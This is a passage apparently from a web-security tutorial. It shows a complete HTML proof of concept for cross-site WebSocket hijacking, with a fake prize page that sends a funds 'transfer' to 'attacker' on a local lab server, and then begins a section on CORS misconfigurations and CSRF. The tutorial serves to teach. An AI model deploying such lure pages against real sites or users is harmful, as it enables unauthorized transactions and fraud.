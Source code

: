 The exploit would look something like. 

```html
<!doctype html>
<html>
  <body>
    <h1>Click to claim your prize!</h1>
    <button onclick="attack()">Claim Now</button>

    <script>
      function attack() {
        const ws = new WebSocket("ws://localhost:3001");

        ws.onopen = () => {
          console.log("WebSocket connected! Sending attack...");
          ws.send(
            JSON.stringify({
              cmd: "transfer",
              amount: 1000,
              to: "attacker",
            }),
          );
        };

        ws.onmessage = (e) => {
          console.log("Server response:", e.data);
          alert("Attack result: " + e.data);
        };

        ws.onerror = (e) => {
          console.error("WebSocket error:", e);
          alert("Error: Open DevTools (F12) and check Console");
        };
      }
    </script>
  </body>
</html>
```

I added some debugging text as this was a bit harder to make it work locally but we did ultimately achieve the goal of transferring the funds. 

![poc](https://i.ibb.co/YB7jhFS7/image.png)


### CORS (Cross origin resource sharing) bypasses for CSRF attacks

CORS is designed to restrict cross-origin HTTP requests, but misconfigurations can enable CSRF exploits a high possibility. Normally browsers block cross-origin `POST` requests with cookies do to the `SameSite=Lax` restriction, but a misconfiguration could be set where the wildcard `*` is used that would allow all. 
